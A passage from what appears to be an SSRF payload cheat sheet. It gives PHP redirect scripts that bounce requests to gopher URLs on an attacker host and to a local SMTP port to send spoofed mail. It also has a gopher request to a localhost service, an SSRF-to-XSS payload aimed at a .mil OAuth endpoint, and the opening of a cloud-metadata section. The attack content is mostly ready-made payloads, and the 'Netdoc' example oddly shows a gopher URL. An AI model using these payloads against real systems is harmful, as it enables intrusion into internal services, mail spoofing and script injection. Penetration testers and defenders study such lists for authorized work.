 ```
Content of evil.com/redirect.php:
<?php
header("Location: gopher://hack3r.site:1337/_SSRF%0ATest!");
?>

Now query it.
https://example.com/?q=http://evil.com/redirect.php.
```

### **Gopher SMTP - send a mail**

```
Content of evil.com/redirect.php:
<?php
        $commands = array(
                'HELO victim.com',
                'MAIL FROM: <admin@victim.com>',
                'RCPT To: <sxcurity@oou.us>',
                'DATA',
                'Subject: @sxcurity!',
                'Corben was here, woot woot!',
                '.'
        );

        $payload = implode('%0A', $commands);

        header('Location: gopher://0:25/_'.$payload);
?>
```

### **Netdoc**

Wrapper for Java when your payloads struggle with "\n" and "\r" characters.

```
ssrf.php?url=gopher://127.0.0.1:4242/DATA
```

### **SSRF to XSS**

```
Payload: http://brutelogic.com.br/poc.svg

https://website.mil/plugins/servlet/oauth/users/icon-uri?consumerUri=http://brutelogic.com.br/poc.svg
```

### **SSRF URL for Cloud Instances**

### **[AWS](http://docs.aws.amazon.com/AWSEC2/latest/UserGuide/ec2-instance-metadata.html#instancedata-data-categories)**
